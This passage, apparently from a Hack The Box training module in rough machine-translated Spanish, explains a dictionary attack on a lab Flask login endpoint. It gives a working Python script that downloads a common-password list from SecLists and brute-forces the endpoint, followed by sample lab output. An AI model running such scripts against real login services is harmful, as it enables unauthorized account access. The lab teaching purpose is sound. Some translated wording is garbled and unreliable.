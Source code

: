 La aplicación de instancia crea una ruta (`/diccionario`) que maneja las solicitudes posteriores. Espera un parámetro `contraseña` en los datos de formulario de la solicitud. Al recibir una solicitud, compara la contraseña enviada con el valor esperado. Si hay una coincidencia, responde con un objeto JSON que contiene un mensaje de éxito y el indicador. De lo contrario, devuelve un mensaje de error con un código de estado 401 (no autorizado).

Copie y pegue este script de Python a continuación como`dictionary-solver.py`en tu máquina. Solo necesita modificar las variables IP y puerto para que coincidan con la información de su sistema de destino.

Código:pitón

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break

```

El guión de Python orquesta el ataque del diccionario. Realiza los siguientes pasos:

1. `Downloads the Wordlist`: Primero, el script obtiene una lista de palabras de 500 comúnmente utilizadas (y por lo tanto débiles) contraseñas de las cecarias utilizando el`requests`biblioteca.
2. `Iterates and Submits Passwords`: Luego itera a través de cada contraseña en la lista de palabras descargada. Para cada contraseña, envía una solicitud de publicación a la aplicación Flask`/dictionary`punto final, incluida la contraseña en los datos del formulario de la solicitud.
3. `Analyzes Responses`: El script verifica el código de estado de respuesta después de cada solicitud. Si son 200 (OK), examina aún más el contenido de respuesta. Si la respuesta contiene la tecla "Bandera", significa un inicio de sesión exitoso. El script luego imprime la contraseña descubierta y la bandera capturada.
4. `Continues or Terminates`: Si la respuesta no indica el éxito, el script procede a la siguiente contraseña en la lista de palabras. Este proceso continúa hasta que se encuentra la contraseña correcta o se agota la lista de palabras completa.

Ataques de diccionario

```
xnoxos@htb[/htb]$ python3 dictionary-solver.py...
Attempted password: turtle
Attempted password: tiffany
Attempted password: golf
Attempted password: bear
Attempted password: tiger
Correct password found: ...
Flag: HTB{...}
```